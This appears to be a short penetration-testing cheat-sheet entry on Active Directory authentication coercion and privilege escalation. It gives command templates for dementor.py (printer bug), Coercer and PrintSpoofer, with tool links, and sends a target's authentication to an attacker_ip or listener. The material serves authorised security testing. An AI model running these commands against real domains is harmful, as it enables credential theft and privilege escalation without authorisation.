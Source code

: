 # dementor

% printerbug, Active directory
#plateform/linux  #target/remote #cat/ATTACK/COERCE 

## coerce
https://github.com/NotMedic/NetNTLMtoSilverTicket
```
dementor.py -d <domain> -u <user> -p <password> <attacker_ip> <dc2>
```


## Coercer
https://github.com/p0dalirius/Coercer
```
coercer.py -u <user> -p '<password>' -d <domain> -l <listener> -t <target-ip>
```


## Printspoofer privesc
https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/PrintSpoofer.NET

```
PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss <launch_cmd>
```
